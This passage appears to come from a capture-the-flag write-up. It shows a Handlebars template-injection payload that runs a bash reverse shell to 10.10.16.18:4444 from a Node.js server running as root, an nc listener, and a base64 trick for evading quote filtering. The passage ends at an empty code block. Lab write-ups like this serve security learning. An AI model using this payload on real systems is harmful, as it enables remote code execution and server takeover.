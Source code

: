 - ![](pics/20230910195407.png)
- It returned the user that is running Node.js which is conveinitly root
- Now for a reverse shell, just going to try a simple bash one:
  ```bash

  {{#with "s" as |string|}}
  {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.10.16.18/4444 0>&1');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
      {{/each}}
    {{/with}}
  {{/with}}
  {{/with}}
  {{/with}}

  ```

  ```bash

  nc -lvnp 4444

  ```

- Trying...didn't work, trying another reverse shell
- Need something cleaner
- It looks like I cannot use " or ' for anything
- So I need a reverse shell without " or '
- I can use base64 it looks like to encode/decode:
  ```bash

  echo "echo hello world" | base64 | base64 -d | bash

  hello world

  ```
- thus lets do that for a reverse shell
  ```bash

  ```